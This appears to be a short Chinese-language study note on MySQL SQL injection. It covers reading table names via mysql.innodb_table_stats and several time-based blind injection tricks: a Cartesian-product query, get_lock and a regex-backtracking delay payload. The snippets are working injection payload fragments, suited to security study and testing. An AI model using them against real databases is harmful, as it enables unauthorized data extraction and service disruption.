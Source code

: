 MySQL>5.6增加了两个新表`innodb_index_stats`和`innodb_table_stats`用于记录更改和新创建的数据库和表的信息。此信息永久保留。

因此可以有：
```sql
select table_name from mysql.innodb_table_stats where database_name=schema();
```

## 延时注入新方法
**参考**
- https://zhuanlan.zhihu.com/p/35245598

最基本的使用sleep(5)和benchmark()进行
还可以使用

**笛卡尔积**
```sql
SELECT count(*) FROM information_schema.columns A, information_schema.columns B;
```

**get_lock**
缺陷在于在apache和php搭建的环境中需要使用mysql_pconnect函数连接数据库。
![](/images/19-2-9_SQL_思路3.png)

**正则bug**
```sql
select rpad('a',10485,'a') RLIKE concat(repeat('(a.*)+',10480),'b');
```